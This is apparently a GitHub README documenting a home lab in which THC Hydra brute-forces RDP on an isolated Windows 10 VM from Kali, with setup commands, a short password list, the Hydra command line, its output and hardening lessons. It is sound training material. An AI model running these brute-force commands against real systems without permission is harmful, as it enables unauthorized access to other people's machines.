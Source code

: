 # RDP-Brute-Force-Attack-Lab-with-Hydra

![Lab Status](https://img.shields.io/badge/Status-Completed-brightgreen?style=for-the-badge)
![Platform](https://img.shields.io/badge/Platform-UTM%20on%20macOS-lightgrey?style=for-the-badge&logo=apple)
![Tool](https://img.shields.io/badge/Tool-THC%20Hydra-red?style=for-the-badge&logo=kali-linux)

## Overview

This lab demonstrates a brute-force attack against Remote Desktop Protocol (RDP) using **Hydra** within an isolated and controlled test environment built on **UTM** running on a **MacBook Air M1**. The goal is to test password strength and understand the importance of hardening RDP access.

> ⚠️ **Legal Disclaimer**: This lab is performed in a **private test environment**. Never conduct unauthorized testing on live or production systems.

---

## Lab Configuration

| Component        | Details                               |
|------------------|----------------------------------------|
| **Host System**  | MacBook Air M1                         |
| **Hypervisor**   | UTM                                    |
| **Attacker VM**  | Kali Linux (Hydra pre-installed)       |
| **Target VM**    | Windows 10 Pro                         |
| **Network Mode** | Emulated VLAN (Host-Only)              |
| **Tool Used**    | THC Hydra                              |

---

## Network Setup

- **Emulated VLAN** used for host-only communication
- Both VMs configured on the same VLAN: `cyberlab`
- IP addresses assigned:
  - Kali Linux: `192.168.100.10`
  - Windows 10: `192.168.100.20`

---

## Windows Target Setup

1. Enabled Remote Desktop via `sysdm.cpl`.
2. Disabled Network Level Authentication (for Hydra compatibility).
3. Created a user:
   ```cmd
   net user testuser P@ssw0rd123 /add
   net localgroup "Remote Desktop Users" testuser /add
   ```
4. Allowed RDP through Windows Firewall.

---

## Attack Execution (Hydra)

**Password List** (`rdp-pass.txt`)
```text
123456
password
P@ssw0rd123
letmein
welcome1
```

**Hydra Command**
```bash
hydra -V -f -l testuser -P rdp-pass.txt rdp://192.168.100.20
```

**Options Explained**
- `-V`: Verbose mode
- `-f`: Exit after first valid login
- `-l`: Username
- `-P`: Password list
- `rdp://`: RDP protocol and target IP

**Sample Output**
```
[3386][rdp] host: 192.168.100.20   login: testuser   password: P@ssw0rd123
```

---

## Result

- **Success**: Hydra successfully identified valid RDP credentials.
- **Credentials**:
  - Username: `testuser`
  - Password: `P@ssw0rd123`

---

## Lessons Learned

- RDP is vulnerable to brute-force without additional protections.
- Weak/default passwords are easily exploitable.
- Always implement:
  - Account lockout policies
  - Network Level Authentication (NLA)
  - Strong password requirements
  - VPN or firewall restrictions

---

## Skills Demonstrated

-  Virtual network setup using UTM and Emulated VLAN
-  Offensive tooling: THC Hydra
-  Service enumeration and protocol targeting (RDP/3389)
-  Documentation and ethical hacking methodology
-  Windows privilege management and configuration

---

##  Repository Structure

```text
/
├── rdp-pass.txt              # Custom password list
├── README.md                 # Lab documentation
├── screenshots/              # (Optional) Screenshots of attack steps
└── notes.md                  # Personal notes or reflections
```

---

## Next Steps

- Extend this to multiple user brute-force (`-L users.txt`)
- Automate RDP log parsing and alerting
- Add detection signatures in SIEM (e.g., Splunk or Wazuh)
- Harden your Windows RDP setup and re-test

---

## License

This project is for **educational and ethical use only**. Do not use these techniques on systems you do not own or have permission to test.

